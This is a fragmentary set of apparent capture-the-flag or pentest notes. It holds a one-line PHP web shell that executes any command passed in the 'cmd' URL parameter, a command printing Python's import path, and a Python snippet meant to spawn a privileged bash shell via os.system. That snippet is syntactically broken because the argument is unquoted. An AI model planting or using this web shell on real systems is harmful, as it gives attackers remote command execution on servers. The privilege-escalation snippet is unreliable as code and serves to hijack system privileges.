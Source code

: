 


<?php echo shell_exec($_GET['cmd']); ?>


`python3 -c "import sys; print(sys.path)"`


```python
import os

os.system(bash -p) 
```

![[Pasted image 20240408135004.png]]